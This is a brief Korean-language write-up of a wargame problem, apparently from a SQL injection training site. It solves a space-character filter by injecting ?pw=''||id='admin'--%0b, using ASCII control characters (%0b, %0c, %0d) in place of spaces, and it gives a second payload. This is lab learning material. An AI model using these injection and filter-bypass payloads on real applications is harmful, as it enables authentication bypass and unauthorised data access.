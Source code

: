## Q5. wolfman _ 공백 우회 기법 (ASCII)
<img src="/photo/prob_05.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: 공백문자 <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> pw에 id컬럼 만들어 admin 적용
=> || 이용
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||id='admin'--+'
```
```
but. +는 공백문자로 제한됨
=> 아스키코드의 공백문자인 0b, 0c 이용
```
```
해결 쿼리문: where id='guest' and pw=''||id='admin'--
```
### CERT <br> ?where id='guest' and pw=''||id='admin'--%0b'

### 느낀점
```diff
+ 아스키코드를 이용한 공백 우회 기법에 대해 배웠다.
+ %0b / %0c / %0d 등
```

### 다른 풀이
1. ?pw=''||id='admin
   - 뒤에 '로 끝남
   - => 굳이 주석 안 붙여도 됨
